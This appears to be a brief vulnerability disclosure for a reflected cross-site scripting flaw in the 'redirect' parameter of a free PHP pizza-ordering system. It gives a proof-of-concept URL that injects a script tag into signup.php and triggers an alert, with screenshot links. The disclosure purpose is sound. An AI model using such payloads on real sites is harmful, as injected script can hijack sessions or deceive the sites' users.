 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220947178-a3811c14-ae9f-49e9-af13-48f6b8530e2b.png)


exp

```
http://192.168.31.50/php-opos/signup.php?redirect=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```
![image](https://user-images.githubusercontent.com/30823782/220947211-d845cfbe-7692-4ab8-92f3-1ecbacc6cdeb.png)

